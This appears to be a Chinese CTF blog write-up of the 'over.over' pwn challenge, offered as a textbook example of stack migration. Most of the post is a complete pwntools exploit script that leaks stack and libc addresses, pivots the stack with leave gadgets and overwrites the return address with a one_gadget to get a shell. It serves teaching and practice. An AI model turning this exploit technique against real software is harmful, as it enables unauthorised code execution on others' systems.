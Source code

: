 ```yaml
---
title: Stack-Migaration-Over
date: 2018-09-29 22:50:49
tags: pwn 
layout: post
---
```

one demo
关于 Stack Migration
<!--more-->
# over.over
在ctfwiki上看到的
[over][1]
虽然很简单但是很精练 可以作为一般stack migration的范本
# Analysis
程序很简单
* 有0x10的溢出 可以覆盖rbp和ret address
* 可以泄露栈地址(rfd)
# 思路
泄露栈地址
->栈迁移到可控区域leak libc
->跳回main
->改掉返回地址为one_gadget

# EXP
```python
from pwn import *
def repeat(c):
	p.readuntil(">")
	p.send(c)
bin=ELF("./over.over")

libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
context.log_level='debug'
leave=0x00000000004006be
pr=0x0000000000400793
main=0x0000000004006C0
p=process("./over.over")

payload="A"*0x50
repeat(payload)
p.readuntil("A"*0x50)

data=p.readline()
stack=u64(data[:-1].ljust(8,"\0"))
log.warning(hex(stack))

payload=p64(0xdeadbeef)+p64(pr)+p64(bin.got['puts'])+p64(bin.plt['puts'])+p64(main)
payload=payload.ljust(0x50,'\0')+p64(stack-0x70)+p64(leave)

repeat(payload)
p.readline()
data=p.readline()
base=u64(data[:-1].ljust(8,"\0"))
base=base-libc.symbols['puts']
libc.address=base
one=0x4526a+base
log.warning(hex(base))


repeat("A"*0x50+p64(0xdeadbeef)+p64(one))
p.interactive()
```

[1]:https://github.com/n132/banana/tree/master/Pwn/stack_trick/stack_migration_over